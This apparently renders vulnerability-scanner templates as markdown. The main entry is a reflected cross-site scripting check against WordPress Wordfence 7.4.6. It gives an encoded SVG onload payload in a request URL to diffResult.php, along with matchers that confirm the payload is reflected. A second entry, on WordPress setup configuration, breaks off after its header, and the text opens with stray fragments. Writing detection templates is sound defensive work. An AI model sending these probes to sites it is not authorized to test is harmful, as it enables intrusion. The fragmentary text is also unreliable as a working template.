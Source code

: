 - status
  1. 200

---

# WordPress Wordfence 7.4.6 - Cross0Site Scripting

## Description

- WordPress Wordfence 7.4.6 is vulnerable to cross-site scripting.
- severity - medium
- tags - wordpress,wp-plugin,xss,wordfence

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/wordfence/lib/diffResult.php?file=%27%3E%22%3Csvg%2Fonload=confirm%28%27test%27%29%3E

### Matchers

**Type - word**

- words
  1. '>"\<svg/onload=confirm('test')>
- part - body

**Type - word**

- words
  1. text/html
- part - header

**Type - status**

- status
  1. 200

---

# WordPress Setup Configuration

- severity - high
- tags - wordpress,setup

## Requests

- Method - GET
